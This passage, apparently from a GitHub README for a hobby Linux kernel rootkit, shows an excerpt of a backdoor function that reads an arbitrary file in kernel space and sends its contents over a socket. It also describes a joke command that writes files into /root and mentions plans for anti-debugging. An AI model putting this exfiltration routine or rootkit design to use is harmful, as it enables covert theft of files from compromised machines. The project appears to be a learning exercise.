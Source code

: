 *src/backdoor.c:106*
```c
int send_file_content(struct socket *sock, const char *filepath)

{
	... 
    char *buf = kmalloc(4096, GFP_KERNEL); // Buffer size of 4096
    filep = filp_open(filepath, O_RDONLY, 0); // open the given filepath
	
	// Send by block of 4096 bytes 
    while ((read_len = kernel_read(filep, buf, 4096, &pos)) > 0)
    {
        vec.iov_len = read_len; // set the len of the message
        vec.iov_base = buf;     // set the data to send
        memset(&msg, 0, sizeof(msg));

        iov_iter_kvec(&msg.msg_iter, WRITE, &vec, 1, read_len); //setup before send

		msg.msg_flags = MSG_NOSIGNAL;
        
		// Send the message to the given socket
        error = kernel_sendmsg(sock, &msg, &vec, 1, vec.iov_len);
	... 
}
```

#### Chicken attack

Just to stay on the theme i've created a really usefull command `chicken <X>` that allow the user to spawn X chicken in the root directory of the machine, that will create X files nammed `/root/chickenX.quack`  with this content:
```
         __
       _/o \\
      /_    |               | /
       W\\  /              |////
         \\ \\  __________||//|/
          \\ \\/         /|/-//-
           |     -----  // --
           |      -----   /-
           |     -----    /
            \\            /
              \\_/  \\___/
                \\  //
                 |||
                 |||
                Z_>>
```

### Anti analyse
I wanted to add a bit of anti debugging for my rootkit, but first of all during this project I've struggled to get a great debugging setup so for me this project is already hard to debug !
